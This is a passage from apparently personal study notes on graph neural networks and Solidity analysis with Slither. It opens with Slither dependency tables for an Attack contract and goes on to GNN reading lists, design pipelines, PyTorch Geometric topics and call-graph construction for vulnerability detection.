| etherStore | ['_etherStoreAddress', 'etherStore'] |
+------------+--------------------------------------+

Function constructor(address)
+--------------------+------------------------+
|      Variable      |      Dependencies      |
+--------------------+------------------------+
| _etherStoreAddress |           []           |
| Attack.etherStore  | ['_etherStoreAddress'] |
+--------------------+------------------------+
Function fallback()
+-------------------+----------------+
|      Variable     |  Dependencies  |
+-------------------+----------------+
| Attack.etherStore | ['etherStore'] |
+-------------------+----------------+
Function attack()
+-------------------+----------------+
|      Variable     |  Dependencies  |
+-------------------+----------------+
| Attack.etherStore | ['etherStore'] |
+-------------------+----------------+
Function getBalance()
+-------------------+--------------+
|      Variable     | Dependencies |
+-------------------+--------------+
|                   |      []      |
| Attack.etherStore |      []      |
+-------------------+--------------+
```
### 1.2.4. Inheritance Graph

...updating...
## 1.3. Day 3 - Slither Tool

- Reference: [Slither documents](https://github.com/crytic/slither/wiki)
- Install: `pip3 install slither-analyzer`
- Script use Slither API in Python
- CLI


..updating...

## 1.4. Day 4 - A Gentle Introduction to Graph Neural Networks

- https://distill.pub/2021/gnn-intro/
- https://drive.google.com/file/d/1rvm6Yq6-Ss4UmxLDIPTReJJkAdcXdhFb/view
- https://viblo.asia/p/deep-learning-graph-neural-network-a-literature-review-and-applications-6J3ZgP0qlmB#_node-embedding-6
- https://neptune.ai/blog/graph-neural-network-and-some-of-gnn-applications

...updating...


## 1.5. Day 5 - Tutorial Representation Learning on Networks
- http://snap.stanford.edu/proj/embeddings-www/
- Node embeddings -> Map nodes to low-dimensional embeddings 
  - DeepWalk
  - Node2vec
- Graph neural networks -> Deep Learning architectures for graph-structured data


### 1.5.1. Node embeddings


- Random Walk Approaches 
- node2vec: Biased Walks 
### 1.5.2. Graph neural networks
- The basics 
- Graph convolutional networks 
- GraphSAGE
- Gated Graph Neural Networks 
- Subgraph Embeddings 

...updating...

## 1.6. Day 6 - Graph neural networks: A review of methods and applications



### 1.6.1. General design pipeline of GNNs

- Find graph structure
- Specify graph type and scale
- Design loss function
- Build model using computational modules
  - Propagation modules - convolution operator
    - Spectral approaches
    - Basic spatial approaches
    - Attention-based spatial approaches
    - General frameworks for spatial approaches
  - Propagation modules - recurrent operator
    - Convergence-based methods
    - Gate-based methods
  - Propagation modules - skip connection
  - Sampling modules
    - Node sampling
    - Layer sampling
    - Subgraph sampling
  - Pooling modules
    - Direct pooling modules
    - Hierarchical pooling modules

#### 1.6.1.1. Find graph structure

- [x] structure scenarios  
- non-structural scenarios 
  - example: building a fully-connected “word” graph for text or building a scene graph for an image

==> Get the graph

#### 1.6.1.2. Specify graph type and scale 
- Directed/Undirected Graphs
  - [ ] Directed graphs
  - [x] Undirected graphs 
- Homogeneous/Heterogeneous Graphs
  - [ ] Homo
  - [x] Hetero 
- Static/Dynamic Graphs
  - [x] Static
  - [ ] Dynamic 

#### 1.6.1.3. Design loss function 

- Node-level: tasks focus on nodes, which include node classification,
node regression, node clustering, etc. Node classification tries to
categorize nodes into several classes, and node regression predicts a
continuous value for each node. Node clustering aims to partition the
nodes into several disjoint groups, where similar nodes should be in
the same group.

- Edge-level: tasks are edge classification and link prediction, which
require the model to classify edge types or predict whether there is an
edge existing between two given nodes.


- [x] Graph-level: tasks include graph classification, graph regression, and
graph matching, all of which need the model to learn graph
representations.

==> categorize graph learning tasks into three different training

- Supervised setting
- Semi-supervised setting
- Unsupervised setting

:pushpin: Example 

- With the task type and the training setting, we can design a specific
loss function for the task. For example, for a node-level semi-supervised
classification task, the cross-entropy loss can be used for the labeled
nodes in the training set.

#### 1.6.1.4. Build model using computational modules






### 1.6.2. Variants considering graph type and scale

- Directed graphs 
- hHeterogeneous graphs 
- Dynamic graphs 
- Other graph types 
- Large graphs 


### 1.6.3. Variants for different training settings 

- Graph auto-encoders 
- Contrastive learning

### 1.6.4. A design example of GNN

#### 1.6.4.1. GPT-GNN: Generative Pre-Training of Graph Neural Networks


### 1.6.5. Analyses of GNN

...updating...

## 1.7. Day 7 - Introduction by Example - Pytorch Geometric

:pushpin: [detail](day_7/Introduction_by_Example.ipynb)

- Data Handling of Graphs

- Common Benchmark Datasets

- Mini-batches

- Data Transforms

- Learning Methods on Graphs

- Exercises

## 1.8. Creating Message Passing Networks

## 1.9. Creating Your Own Datasets

## 1.10. Heterogeneous Graph Learning

## 1.11. Loading Graphs from CSV

## 1.12. GNN Explainability

## 1.13. Compiled Graph Neural Networks


## 1.14. Build Hetero Graph with Call-Graph and CFG from Solidity Source Code

### Hetero Call Graph

:pushpin: Edge Types

- INTERNAL_CALL
- EXTERNAL_CAL

:pushpin: Node Types

- FALLBACK_NODE 
- FUNCTION_NAME

==> Create HCGs:

$$ G_{C} = {v_{C}, E_{C}, \phi_{C}, \psi_{C}}$$

### Hetero CFG

:pushpin: Edge types

- NEXT
- TRUE
- FALSE


:pushpin: Node types

- ENTRY_POINT
- EXPRESSION
- NEW_VARIABLE
- RETURN
- IF
- END_IF
- IF_LOOP
- END_LOOP

==> Create HCFGs:

$$ G_{CF} = {V_{CF}, E_{CF},\phi_{CF},\psi_{CF}}$$

## 1.15. Computational Graph in PyTorch

- https://www.geeksforgeeks.org/computational-graph-in-pytorch/

## 1.16. GCN 

- https://viblo.asia/p/tan-man-ve-graph-convolution-networks-phan-1-6J3Zga8A5mB
- https://viblo.asia/p/tan-man-ve-graph-convolution-networks-phan-2-gAm5y7NqZdb

## 1.17. Introduction: Hands-on Graph Neural Networks

## 1.18. Node Classification with Graph Neural Networks

## 1.19. Graph Classification with Graph Neural Networks

## 1.20. Scaling Graph Neural Networks

## 1.21. Point Cloud Classification with Graph Neural Networks

## 1.22. Explaining GNN Model Predictions using  Captum

## 1.23. Customizing Aggregations within Message Passing

## 1.24. Node Classification Instrumented with  Weights&Biases
## 1.25. Graph Classification Instrumented with  Weights&Biases


## 1.26. Link Prediction on MovieLens

## 1.27. Link Regression on MovieLens


## 1.28. Graph Attention Networks (GATs) 

## 1.29. Spectral Graph Convolutional Layers 

## 1.30. Aggregation Functions in GNNs 

## 1.31. Recurrent Graph Neural Networks

## 1.32. DeepWalk and Node2Vec 

## 1.33. Data handling in PyG

## 1.34. MetaPath2vec

## 1.35. Graph pooling (DiffPool) 


## 1.36. Application

- Mandoguru
- Vulnerability detection
- Recommend System

## 1.37. Library 

- Pytorch geometric
- DGL
- Networkx


### 1.37.1. pytorch_geometric.nn

- Convolutional Layers 
- Aggregation Operators 
- Normalization Layers 
- Pooling Layers 
- Unpooling Layers 
- Models 
- KGE Models 
- Encodings 
- Functional 
- Dense Convolutional Layers 
- Dense Pooling Layers 
- Model Transformations 
- DataParallel Layers
- Model Hub
- Model Summary


